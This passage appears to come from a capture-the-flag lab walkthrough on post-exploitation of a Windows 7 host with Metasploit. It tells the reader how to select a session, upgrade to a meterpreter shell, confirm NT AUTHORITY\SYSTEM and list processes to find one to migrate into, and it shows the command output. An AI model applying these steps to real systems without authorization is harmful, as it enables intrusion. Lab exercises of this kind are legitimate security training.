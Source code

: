 A: SESSION

Set the required option, you may need to list all of the sessions to find your target here.

set SESSION 1

Run! If this doesn't work, try completing the exploit from the previous task once more.

Once the meterpreter shell conversion completes, select that session for use.

Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again.

```shell
meterpreter > shell
Process 1688 created.
Channel 2 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).

```sh
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]                                                   
 4     0     System                x64   0                                      
 416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
 432   660   LogonUI.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\LogonUI.exe
 488   708   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 560   552   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 608   552   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\wininit.exe
 620   600   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 660   600   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\winlogon.exe
 708   608   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\services.exe
 716   608   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsass.exe
 724   608   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsm.exe
 776   708   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\svchost.exe
 832   708   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\svchost.exe
 900   708   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\system32\svchost.exe
```